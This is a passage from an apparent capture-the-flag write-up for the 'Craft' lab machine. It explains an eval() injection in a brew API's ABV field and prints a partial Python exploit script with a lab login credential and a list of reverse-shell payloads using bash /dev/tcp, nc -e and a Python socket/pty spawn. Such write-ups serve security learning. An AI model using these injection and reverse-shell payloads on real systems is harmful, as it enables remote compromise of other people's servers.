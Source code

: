 Since you&#8217;ll have to get a new token every 5 minutes, it may be best to separate the token out from the curl request like this:  
<img class="alignnone size-full wp-image-439" src="/assets/img/2019/12/2019-12-03_21h48_22.png" /> 

Now you can experiment with sending things to the brew list and looking at sections of the brew list with the other API functions.

## Bug Exploiting

Everything you have at this point still won&#8217;t get you in any further. So go back to the source and look for ways to abuse the code.

If you go to the ABV values patch that was saved for closer inspection, you can see why one of the comments was to remove the patch before something bad happens. There is an eval() call using untrusted data that was grabbed from the JSON sent during a new brew entry. Eval() calls and exec() calls with untrusted data are the fastest ways to get your Python code pwned.

Exploiting things like this is much easier when you can skip steps like token creation. To do that, make a python exploit script that sets everything up for you in an automated way. My first time through this box, I wrote my own script using the &#8216;requests&#8217; library. But after looking through the source again I see there is a shortcut given, through the &#8216;tests/test.py&#8217; file. You should be able to use it mostly as-is, just clean up the parts you don&#8217;t need and replace the &#8216;abv&#8217; value with your shellcode.

Just for laughs though, here is my custom script:

{% highlight plain_text %}
#!/usr/bin/python3
import requests
import json

# Get the access token
token_url = 'https://api.craft.htb/api/auth/login'
token_headers = {'Authorization': 'Basic ZGluZXNoOjRhVWgwQThQYlZKeGdk'}

jtoken = requests.get(token_url, headers=token_headers, verify=False)
token = json.loads(jtoken.text)['token']

conAddr = '10.10.14.88'
conPort = 5555

# Create brew with payload
#payload = "__import__('os').run('bash -i &gt;& /dev/tcp/10.10.14.16/5555')"
#payload = "compile(%s,'','single')" % command
#payload = "__import__('os').popen('nc -e $SHELL 10.10.14.61 5555 &')"
#payload = "compile('for x in range(1):\n import time\n time.sleep(20)','a','single')"
#payload = "__import__('os').system('bash -i &gt;& /dev/tcp/10.10.15.247/5555 0&gt;&1')"
#payload = "__import__('subprocess').Popen('nc 10.10.14.16 5555',shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)"
#payload = "__import__('os').exec('import sys,socket,os,pty;s=socket.socket();s.connect(10.10.14.16,5555));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(/bin/sh)')"
#payload = "__import__('subprocess').popen('bash -i &gt;& /dev/tcp/10.10.14.16/5555 0&gt;&1',shell=True)"
#payload = base64 "compile("""for x in range(1):\n import subprocess\n subprocess.check_output(r'$COMMAND',shell=True)""",'','single')"
#payload = "__import__('os').call('bash -i &gt;& /dev/tcp/10.10.14.16/5555 0&gt;&1')"
